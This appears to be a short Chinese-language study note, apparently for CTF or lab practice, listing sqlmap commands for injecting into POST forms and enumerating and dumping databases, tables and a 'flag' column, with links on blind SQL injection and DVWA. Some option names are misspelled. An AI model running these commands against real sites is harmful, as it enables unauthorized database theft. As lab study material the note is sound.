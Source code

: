   ``` shell
  sqlmap -u url/ip
  sqlmap -u ip --forms  #POST注入，读取页面中POST传参的表单的传参名然后进行SQL注入
  sqlmap -u ip --forms --dbs #跑库名
  -D 指定库 -T 指定表 -C 指定字段
  sqlmap -u ip --forms -D post_error --tables #跑表名
  sqlmap -u ip --forms -D post_errow -T flag --colnums #字段名
  sqlmap -u ip --forms -D post_errow -T flag -C flag --dump #出数据
  ```

  [更具体的使用链接](https://www.cnblogs.com/hongfei/p/3872156.html)



参考链接

[SQL注入之盲注](https://www.freebuf.com/articles/web/281559.html)

[dvwa模拟实验2——sql盲注](https://blog.csdn.net/Allen__0/article/details/103975792)

